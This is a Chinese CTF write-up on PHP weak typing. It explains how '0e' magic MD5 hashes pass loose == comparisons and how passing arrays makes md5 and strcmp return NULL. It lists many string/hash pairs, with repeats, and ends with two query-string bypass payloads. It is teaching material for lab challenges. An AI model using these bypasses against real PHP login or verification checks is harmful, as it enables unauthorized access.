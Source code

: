 ## 前女友

**分类：**PHP弱类型

## write-up

此题的考点是PHP若类型，这儿考了一个等号的若类型比较的过程与strcmp函数的问题。

- 0e12345 == 0  0e 45678 == 0

由于在字符串比较的时候可以将其转换成数字比较。所以在md5的值进行比较的时候，可以使用产生0e开头且之后为数字的md5的值。

常用的有：

```
s878926199a
0e545993274517709034328855841020
s155964671a
0e342768416822451524974117254469
s214587387a
0e848240448830537924465865611904
s214587387a
0e848240448830537924465865611904
s878926199a
0e545993274517709034328855841020
s1091221200a
0e940624217856561557816327384675
s1885207154a
0e509367213418206700842008763514
s1502113478a
0e861580163291561247404381396064
s1885207154a
0e509367213418206700842008763514
s1836677006a
0e481036490867661113260034900752
s155964671a
0e342768416822451524974117254469
s1184209335a
0e072485820392773389523109082030
s1665632922a
0e731198061491163073197128363787
s1502113478a
0e861580163291561247404381396064
s1836677006a
0e481036490867661113260034900752
s1091221200a
0e940624217856561557816327384675
s155964671a
0e342768416822451524974117254469
s1502113478a
0e861580163291561247404381396064
s155964671a
0e342768416822451524974117254469
s1665632922a
0e731198061491163073197128363787
s155964671a
0e342768416822451524974117254469
s1091221200a
0e940624217856561557816327384675
s1836677006a
0e481036490867661113260034900752
s1885207154a
0e509367213418206700842008763514
s532378020a
0e220463095855511507588041205815
s878926199a
0e545993274517709034328855841020
s1091221200a
0e940624217856561557816327384675
s214587387a
0e848240448830537924465865611904
s1502113478a
0e861580163291561247404381396064
s1091221200a
0e940624217856561557816327384675
s1665632922a
0e731198061491163073197128363787
s1885207154a
0e509367213418206700842008763514
s1836677006a
0e481036490867661113260034900752
s1665632922a
0e731198061491163073197128363787
s878926199a
0e545993274517709034328855841020
```

奇数行为原来的字符串，偶数行为md5计算之后的值。

当然在这儿也可以利用数组的方式绕过，因为md5函数的参数为数组时返回值为`NULL`。

- strcmp — Warning

[官方strcmp](http://php.net/manual/zh/function.strcmp.php)

在strcmp的官方文档中存在一个如下警告：

```php
strcmp("foo", array()) => NULL + PHP Warning
```

当数组与字符串进行比较的时候返回值为`NULL`，由于非空即为真的原则，很容易绕过了strcmp函数。

`payload1：v1=s878926199a&v2=s155964671a&v3[]=1`

`payload2：v1[]=1&v2[]=2&v3[]=3`

